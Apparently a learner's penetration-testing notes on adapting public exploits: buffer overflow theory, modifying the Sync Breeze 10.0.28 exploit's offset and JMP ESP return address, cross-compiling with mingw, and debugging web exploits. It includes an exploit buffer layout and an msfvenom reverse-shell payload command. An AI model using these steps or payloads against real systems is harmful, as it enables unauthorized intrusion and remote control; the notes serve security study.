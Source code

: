 Fixing Exploits

compromise is to modify a public exploit to suit our needs

challenges: buffer overflow, need to modify basic target parameters such as the socket information, return address, payload and offsets

before running the pentest scope needs to be defined upfront, the client needs to understand that downtime to prod may happen

always read the exploit code carefully mod as needed and test it aginst own sandboxed target whenever possible


Fixing Memory Corruption Exploits

Buffer is a memory area intended to hold content that is sent by the user for later processing

buffer overflows are one of the earliest memory corruption vulnerabilities 

buffer overflow occurs when the user's provided content goes beyond the stack limit and overruns into the adjacent memory area

memory corruption can occur in heap or the stack, heap is dynamically managed and typically stores large chunks of globally accessible data, stack is to store local function data and has a fixed size

stack contains int or buffers

*buffer[64]*
strcpy (buffer, argv[1]); 

the above does not check if the destination address can handel the originating string

input validation but low level

the stack makes room for the exact space needed by the buffer, along with function parameters and the return address

return address is a memory address that stores the next function to be exe once the running has completed

if user input is bigger than destination buffer space, it could overwite the return address

rewriting the return address: 
when function ends, ret is called, which loads the return address inside EIP/RIP, the instruction pointer responsible for keeping track of current code instructions

we can eventrually control the program flow if we control return address

we can rewrite the return address with a valid and mapped memory address containing shellcode 

development of ASLR and Executable Space Protection among others


Flow of standard stack-based buffer overflow:
Create a large buffer to trigger the overflow
Take control of EIP by overwriting a return address on the stack, padding the large buffer with appropriate offset
Include payload in buffer prepended by NOP sled
Choose a correct return address instruction such as JMP ESP to redirect the execution flow to payload

ASCII or UNICODE bad characters will break application when included in the payload because they might be interpreted as control characters


Impoprting and Examining the Exploit

target Sync Breeze Enterprise 10.0.28 42341.c

vulnerability is present in the HTTP server module where a buffer overflow condition is triggered by POST request

basically:

offset = "A" * 780
JMP_ESP = "\x83\x0c\x09\x10"
shellcode = "x90"*16 + msf_shellcode
exploit = offset + JMP_ESP + shellcode

offset overwrites the instruction pointer with JMP ESP instruction located at 0x10090c83

we append shell code with 16 NOPs

Python vs C

scripting languages are executed through an interpreter and not complied to create standalone exe, so we can't run python when python is not installed

concatenating a string is very easy and usually takes the addtion of 2 var


we move the target exploit to working directory 
searchsploit -m <exploitdb id>

notice headers such as 
winsock2.h
incidcating tha the code was meant to be compiled on win

we will cross-compile with kali


Cross-compiling Exploit Code

we'll use mingw-64 cross-compiler

i686-w64-mingw32-gcc <.c file>.c -o <name>.exe

research the error

fixed new command:
i686-w64-mingw32-gcc <.c file>.c -o <name>.exe -lws2_32

using wine before c file to run


Fixing the Exploit

in the c code // msvbvm60.dll was commented

which is not a part of the vulnerable software, examining the loaded modules in the debugger on windows we note that this dll is missing, which means the return address is wrong

to verify: start the service on the client, launch Immunity Debugger as admin 
File>Attach and select the process

once attached we can click on the View menu, then Executable modules
from here we can verify if the dll is present

given the python version is marked as EDB verified so we can just replace the target return address with the one contained in that version

if we don't have a return address from a previously developed exploit: 
recreate the target environment locally and used the debugger to determine address

we could use information from other public exploits to find a reliable return address that will match out target environment

for example:
if we needed a JMP ESP instruction for Win server 2019 we could search for it in public exploits leverageing different vulnerabilities targeting hat os

during normal buffer overfloww we shouldn't rely on hard coded JMP ESP as  these are randomized at boot time due to ASLR, we need to find these in non ASLR modules

we could also obtain the address directly from the machine, if we have access as an unprivileged user, we can copy the DLL we are intrested in onto our attacker and use objdump

we should generate our own payload with msfvenom

msfvenom -p windows/shell_reverse_tcp LHOST=<my ip> LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"


on immunity debugger we can test the exploit

ctrl+G follow the JMP ESP address and press f2 to set a breakpoint

use wine with sudo wine <app>.exe


Changing the Overflow Buffer

looking at the example PoC code:

int initial_buffer_size = 780;
char *padding = malloc (initial_buffer_size);

780 is the offset in bytes required to overwrite the return address on the stack

malloc only acclocates memory, buffer still needs to be properly inied

memset(padding, 0x41, initial_buffer_size);
memset fills the memory with A to the pointer, of the initial_buffer_size

next line:
memset(padding + initial_buffer_size - 1, 0x00, 1);
this is done as C's string has a null terminator and the rest of the script is done in str functions


Fixing web exploits

Does it initiate HTTP or HTTPS
Does it access specific web app path
Does the exploit need pre authentication
How does the app exploit 
How are GET or POST requests craftedd?
Does it rely on default app setting?
Will oddities such as self signed certs disrupt exploit

use the verify=Flase to ignore SSL certificates

Index out of range

looking at the error thrown by the interpreter:
line 24: split method

we need to incestigate the documentation of split

method slices the input string using an optional separator passed as first argument

if the error isn't evident use print

dirbuster is an alternative to gobuster, should try, wordlist is located at: 
/usr/share/wordlists/dirbuster/
a lot more substantial 